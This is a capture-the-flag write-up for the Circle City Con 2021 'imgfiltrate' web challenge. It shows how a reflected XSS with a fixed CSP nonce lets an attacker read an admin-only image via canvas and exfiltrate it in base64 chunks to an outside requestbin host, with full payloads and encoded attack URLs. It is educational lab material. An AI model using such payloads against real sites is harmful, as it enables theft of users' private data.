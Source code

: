 ```yaml
---
title: "Circle City Con CTF 2021 imgfiltrate writeup"
description: "Circle City Con CTF 2021 imgfiltrate writeup"
authors: [hi120ki]
tags: [CTF, Web, Web Security]
slug: posts/20210614
---
```


## Challenge

Can you yoink an image from the admin page?

App: http://35.224.135.84:3200
Admin bot: http://35.224.135.84:3201

<!-- truncate -->

Author: qxxxb

```
Hint! In this challenge there are two services: the web app and the admin bot.

docker-compose creates an internal network for these two services, and the web app has an internal hostname set to imgfiltrate.hub.

Note that the admin bot's cookie is set for this internal domain, not the external domain at 35.224.135.84. This means that when you submit a URL to the admin bot, you must do something like:
http://imgfiltrate.hub/<stuff>
```

## Solution

Check the source code, there is CSP settings.

`app/public/index.php`

```html
<meta
  http-equiv="Content-Security-Policy"
  content="default-src 'none'; img-src 'self'; script-src 'nonce-70861e83ad7f1863b3020799df93e450';"
/>
```

This site only allows images of the same origin and script tags with nonces as external resources.

We can embed any code into html with the get parameter.

`app/public/index.php`

```php
Hello <?php echo $_GET['name'] ?? 'bozo' ?>
```

Also, the CSP nonce is fixed, so you can check the xss at this URL.

```
http://35.224.135.84:3200/?name=<script nonce="70861e83ad7f1863b3020799df93e450">alert(1)</script>
```

And the purpose of the attack is an image that is only displayed when the bot accesses this site.

(The cookie "token" has the httpOnly attribute, so it cannot be retrieved by XSS.)

`app/public/flag.php`

```php
<?php

header('Content-Type: image/png');

if (isset($_COOKIE['token']) && $_COOKIE['token'] === getenv('TOKEN')) {
    $filepath = '/opt/flag.png';
} else {
    $filepath = '/opt/no_flag.png';
}

echo file_get_contents($filepath);
```

`bot/main.js`

```javascript
await page.setCookie({
  name: "token",
  value: process.env.TOKEN,
  domain: "imgfiltrate.hub",
  sameSite: "strict",
  httpOnly: true,
});

try {
  await page.goto(url, { timeout: 5000, waitUntil: "networkidle2" });
  await page.waitForTimeout(2000);
} finally {
  await page.close();
  await ctx.close();
}
```

Therefore, the attack is the following procedure

1. Create a new script tag using `document.createElement`.
2. Convert flag images to base64 data.
3. Send the image data externally with the "src" of the script tag generated in 1.

```html
<script nonce="70861e83ad7f1863b3020799df93e450">
  // 1. Create a new script tag using `document.createElement`.
  var oScript = document.createElement("script");
  oScript.nonce = "70861e83ad7f1863b3020799df93e450";
  oScript.type = "text\/javascript";
  document.currentScript.parentNode.insertBefore(
    oScript,
    document.currentScript,
  );
  // Wait one second for the image to load.
  setTimeout(function () {
    // 2. Convert flag images to base64 data.
    var img = document.getElementById("flag");
    var canvas = document.createElement("canvas");
    var ctx = canvas.getContext("2d");
    canvas.width = img.width;
    canvas.height = img.height;
    ctx.drawImage(img, 0, 0);
    var data = canvas.toDataURL("image/jpeg");
    var data2 = data.replace(/^.*,/, "").replace(/\//g, "-").substring(0, 5000);
    // 3. Send the image data externally with the "src" of the script tag generated in 1.
    oScript.src = `https://x.pipedream.net/?a=${data2}`;
  }, "1000");
</script>
```

Minify this code to make it read as XSS.

```html
<script nonce="70861e83ad7f1863b3020799df93e450">
  var oScript = document.createElement("script");
  oScript.nonce = "70861e83ad7f1863b3020799df93e450";
  oScript.type = "text\/javascript";
  document.currentScript.parentNode.insertBefore(
    oScript,
    document.currentScript,
  );
  setTimeout(function () {
    var img = document.getElementById("flag");
    var canvas = document.createElement("canvas");
    var ctx = canvas.getContext("2d");
    canvas.width = img.width;
    canvas.height = img.height;
    ctx.drawImage(img, 0, 0);
    var data = canvas.toDataURL("image/jpeg");
    var data2 = data.replace(/^.*,/, "").replace(/\//g, "-").substring(0, 5000);
    oScript.src = `https://x.pipedream.net/?a=${data2}`;
  }, "1000");
</script>
```

The image data is large and exceeds the length that can be specified in the url, so we will split it into three parts.

By sending these URLs to the bot, base64 encoded image data will be sent to the requestbin.

```
http://imgfiltrate.hub/?name=%3Cscript%20nonce=%2270861e83ad7f1863b3020799df93e450%22%3Evar%20oScript%20=%20document.createElement(%22script%22);oScript.nonce%20=%20%2270861e83ad7f1863b3020799df93e450%22;oScript.type%20=%20%22text%5C/javascript%22;document.currentScript.parentNode.insertBefore(oScript,%20document.currentScript);setTimeout(function%20()%20%7Bvar%20img%20=%20document.getElementById(%22flag%22);var%20canvas%20=%20document.createElement('canvas');var%20ctx%20=%20canvas.getContext('2d');canvas.width%20=%20img.width;canvas.height%20=%20img.height;ctx.drawImage(img,%200,%200);var%20data%20=%20canvas.toDataURL('image/jpeg');var%20data2%20=%20data.replace(/%5E.*,/,%20'').replace(/%5C//g,%20'-').substring(0,%205000);oScript.src%20=%20%60https://x.pipedream.net/?a=$%7Bdata2%7D%60;%7D,%221000%22);%3C/script%3E

http://imgfiltrate.hub/?name=%3Cscript%20nonce=%2270861e83ad7f1863b3020799df93e450%22%3Evar%20oScript%20=%20document.createElement(%22script%22);oScript.nonce%20=%20%2270861e83ad7f1863b3020799df93e450%22;oScript.type%20=%20%22text%5C/javascript%22;document.currentScript.parentNode.insertBefore(oScript,%20document.currentScript);setTimeout(function%20()%20%7Bvar%20img%20=%20document.getElementById(%22flag%22);var%20canvas%20=%20document.createElement('canvas');var%20ctx%20=%20canvas.getContext('2d');canvas.width%20=%20img.width;canvas.height%20=%20img.height;ctx.drawImage(img,%200,%200);var%20data%20=%20canvas.toDataURL('image/jpeg');var%20data2%20=%20data.replace(/%5E.*,/,%20'').replace(/%5C//g,%20'-').substring(5000,%2010000);oScript.src%20=%20%60https://x.pipedream.net/?a=$%7Bdata2%7D%60;%7D,%221000%22);%3C/script%3E

http://imgfiltrate.hub/?name=%3Cscript%20nonce=%2270861e83ad7f1863b3020799df93e450%22%3Evar%20oScript%20=%20document.createElement(%22script%22);oScript.nonce%20=%20%2270861e83ad7f1863b3020799df93e450%22;oScript.type%20=%20%22text%5C/javascript%22;document.currentScript.parentNode.insertBefore(oScript,%20document.currentScript);setTimeout(function%20()%20%7Bvar%20img%20=%20document.getElementById(%22flag%22);var%20canvas%20=%20document.createElement('canvas');var%20ctx%20=%20canvas.getContext('2d');canvas.width%20=%20img.width;canvas.height%20=%20img.height;ctx.drawImage(img,%200,%200);var%20data%20=%20canvas.toDataURL('image/jpeg');var%20data2%20=%20data.replace(/%5E.*,/,%20'').replace(/%5C//g,%20'-').substring(10000,%2015000);oScript.src%20=%20%60https://x.pipedream.net/?a=$%7Bdata2%7D%60;%7D,%221000%22);%3C/script%3E
```

We can then display this data in the following html to get the flag.

```html
<!doctype html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>test</title>
  </head>
  <body>
    <canvas id="cvs" width="500" height="200"></canvas>
    <script>
      var data = "data:image/jpeg;base64,/9j/4AAQSkZJRgA...AAAAH//2Q==";
      var cvs = document.getElementById("cvs");
      var ctx = cvs.getContext("2d");
      var img = new Image();
      img.src = data;
      img.onload = function () {
        ctx.drawImage(img, 0, 0, 500, 200);
      };
    </script>
  </body>
</html>
```

```
CCC{c4nvas_b64}
```
